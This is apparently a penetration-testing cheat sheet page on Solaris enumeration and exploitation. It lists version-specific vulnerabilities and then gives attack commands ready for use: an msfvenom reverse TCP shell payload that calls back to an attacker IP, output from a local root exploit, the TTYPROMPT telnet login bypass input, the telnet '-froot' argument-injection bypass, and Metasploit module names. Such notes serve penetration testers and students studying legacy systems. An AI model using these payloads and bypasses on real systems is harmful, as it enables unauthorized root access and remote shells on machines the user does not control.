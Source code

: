 ```yaml
---
description: Information gathering and exploitation
---
```


# Solaris

## Enumeration

**View patches** 

`showrev -p` 

**Installed packages:** 

`Pkginfo  OR pkginfo -x`

**Host information**

`uname -a`

**Show IP interface:** 

`Ifconfig -a` 

**Process list:** 

`/usr/ucb/ps -auxww` 

### Patch check analyser

[http://www.par.univie.ac.at/solaris/pca/](http://www.par.univie.ac.at/solaris/pca/)

Patch Check Advanced \(PCA\) generates lists of installed and missing patches for Oracle Solaris systems and optionally downloads patches. It resolves dependencies between patches and installs them in correct order. It can be the only tool you ever need for patch management, be it on a single machine or a complete network. Just one perl script, it doesn't need compilation nor installation, and it doesn't need root permissions to run. It works on all versions of Solaris, both SPARC and x86.



## Common Solaris Vulnerabilities

### Solaris 7

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 8

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* no exploit - sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### solaris 9:

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 10

* fuser TELNET - authentication bypass through -f command - can be manually exploited 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root.

### Solaris 11

* fuser TELNET - authentication bypass through -f command - can be manually exploited

## **Exploits**

### **Solaris 8 finger**

`finger '1 2 3 4 5 6 7 8 9 0'@target`

### **Solaris exploits**

https://github.com/0xdea/exploits 

#### raptor\_passwd

```text
$ gcc raptor_passwd.c -o passwd -ldl -Wall
$./raptor_passwd p@ssw0rd
raptor_passwd.c - passwd circ() local, Solaris/SPARC 8/9
Copyright (c) 2004 Marco Ivaldi <raptor@0xdeadbeef.info>
Using SI_PLATFORM : SUNW,UltraAX-i2 (5.9)
Using stack base : 0xffbffffc
Using var address : 0xffbffb58
Using rwx_mem address : 0xff3f6004
Using sc address : 0xffbfff9c
Using ff address : 0xffbfff58
Using strcpy() address : 0xff3e0288
"Pai Mei taught you the five point palm exploding heart technique?" -- Bill
"Of course." -- Beatrix Kidd0, alias Black Mamba, alias The Bride (KB Vol2)
# id;uname -a;uptime;
uid=0(root) gid=9610(gengrp) egid=3(sys)
SunOS wks1 5.9 Generic sun4u sparc SUNW,UltraAX-i2
1:53pm up 1 day(s), 16:32, 1 user, load average: 0.00, 0.00, 0.01
#
```

### **Msfvenom payload** 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf`

###  TTYPROMPT exploit

Solaris TTYPROMPT Security Vulnerability \(Telnet\) 

This vulnerability is very simple to exploit, since it does not require any code to be compiled by an attacker. The vulnerability only requires the attacker to simply define the environment variable TTYPROMPT to a 6-character string, inside telnet. Jonathan believes this overflows an integer inside login, which specifies whether the user has been authenticated \(just a guess\). 

Once connected to the remote host, you must type the username, followed by 64 " c"s, and a literal "\n". You will then be logged in as the user without any password authentication. This should work with any account except root \(unless remote root login is allowed\).  

**Example**:

```text
coma% telnet  
telnet> environ define TTYPROMPT abcdef  
telnet> o localhost  
SunOS 5.8  
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c\n  
Last login: whenever  
$ whoami bin  
```

**Metasploit:**

 Solaris in.telnetd TTYPROMPT Buffer Overflow

```text
msf > use exploit/solaris/telnet/ttyprompt
```

### **Telnet exploit \(fuser\)**

exploits the argument injection vulnerability in the telnet daemon \(in.telnetd\) of Solaris 10 and 11.  

**Command line:** 

```text
telnet -l "-fbin" target_address 
Or also 
telnet -l "-froot" 192.168.0.1 
```

**Metasploit:** 

msf &gt; use exploit/solaris/telnet/fuser 

